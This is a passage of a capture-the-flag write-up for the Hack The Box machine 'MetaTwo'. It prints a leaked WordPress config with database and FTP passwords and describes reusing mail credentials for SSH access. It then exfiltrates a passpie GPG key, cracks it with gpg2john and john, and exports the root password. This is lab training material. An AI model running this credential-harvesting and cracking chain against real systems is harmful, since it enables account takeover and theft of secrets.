/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );
/** MySQL database username */
define( 'DB_USER', 'blog' );
/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
/**#@+
* Authentication Unique Keys and Salts.
* @since 2.6.0
*/
define( 'AUTH_KEY', '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY', 'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY', 'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY', 'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT', '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT', '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT', '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );
/**
* WordPress Database Table prefix.
*/
$table_prefix = 'wp_';
/**
* For developers: WordPress debugging mode.
* @link https://wordpress.org/support/article/debugging-in-wordpress/
*/
define( 'WP_DEBUG', false );
/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
define( 'ABSPATH', __DIR__ . '/' );
}
/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
The ftp credentials are in there, we can go ahead and connect, then in the mailer folder the send_email.php file contains an other set of credentials for jnelson at the SMTP server:
$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
$mail->SMTPSecure = "tls";
$mail->Port = 587;
We know jnelson is also a nix user account we try to use those over ssh, and yep, the credentials were reused, we got a shell
wc -c user.txt
33 user.txt
jnelson@meta2:~$ sudo -l
[sudo] password for jnelson:
Sorry, try again.
[sudo] password for jnelson:
Sorry, user jnelson may not run sudo on meta2.
Looking at the home folder, there is a .passpie folder
jnelson@meta2:~$ cd .passpie/
jnelson@meta2:~/.passpie$ ls -laa
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25 12:52 .
drwxr-xr-x 4 jnelson jnelson 4096 Jan 17 17:30 ..
-r-xr-x--- 1 jnelson jnelson 3 Jun 26 2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26 2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25 12:52 ssh
This looks like some kind of secret management thing based in PGP.
given the name it’s pretty easy to guess that this is gonna be a python thing
jnelson@meta2:~/.passpie$ pip show passpie
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Name: passpie
Version: 1.6.1
Summary: Manage your login credentials from the terminal painlessly.
Home-page: https://github.com/marcwebbie/passpie
Author: Marcwebbie
Author-email: marcwebbie@gmail.com
License: License :: OSI Approved :: MIT License
Location: /usr/local/lib/python2.7/dist-packages
Requires: PyYAML, click, rstr, tinydb, tabulate
Required-by:
jnelson@meta2:~/.passpie$ pip -V
pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)
jnelson@meta2:~/.passpie$ which passpie
/usr/local/bin/passpie
jnelson@meta2:~/.passpie$ passpie -h
Error: no such option: -h
jnelson@meta2:~/.passpie$ passpie --help
Usage: passpie [OPTIONS] COMMAND [ARGS]...
Options:
-D, --database TEXT Database path or url to remote repository
--autopull TEXT Autopull changes from remote pository
--autopush TEXT Autopush changes to remote pository
--config PATH Path to configuration file
-v, --verbose Activate verbose output
--version Show the version and exit.
--help Show this message and exit.
Commands:
add Add new credential to database
complete Generate completion scripts for shells
config Show current configuration for shell
copy Copy credential password to clipboard/stdout
export Export credentials in plain text
import Import credentials from path
init Initialize new passpie database
list Print credential as a table
log Shows passpie database changes history
purge Remove all credentials from database
remove Remove credential
reset Renew passpie database and re-encrypt...
search Search credentials by regular expressions
status Diagnose database for improvements
update Update credential
jnelson@meta2:~/.passpie$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name │ Login │ Password │ Comment │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh │ jnelson │ ******** │ │
├────────┼─────────┼────────────┼───────────┤
│ ssh │ root │ ******** │ │
╘════════╧═════════╧════════════╧═══════════╛
jnelson@meta2:~/.passpie$ passpie export happy_newt
Passphrase:
Error: Wrong passphrase
jnelson@meta2:~/.passpie$ passpie export happy_newt
Passphrase:
Error: Wrong passphrase
None of the password we know about so far are the right passphrase
partylikearockstar
635Aq@TdqrCwXFUZ
9NYS_ii@FyL_p5M2NvJ
Cb4_JmWM8zUZWMu@Ys
Exfiltrating the .keys file, and transform it with gpg2john
gpg2john pkey > gpg-key
File pkey
[blnkn@Kolossus](main *%=):~/sec/htb/machines/metatwo/loot% cat gpg-key
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::pkey
Cracking with john
john --wordlist=/usr/share/wordlists/rockyou.txt gpg-key
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182 (Passpie)
1g 0:00:00:01 DONE (2023-01-15 16:07) 0.5263g/s 134.7p/s 134.7c/s 134.7C/s carolina..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
And that’s it! :)
jnelson@meta2:~$ passpie export happy_newt
Passphrase:
jnelson@meta2:~$ cat happy_newt
credentials:
- comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
fullname: jnelson@ssh
login: jnelson
modified: 2022-06-26 08:58:15.514422
name: ssh
password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
jnelson@meta2:~$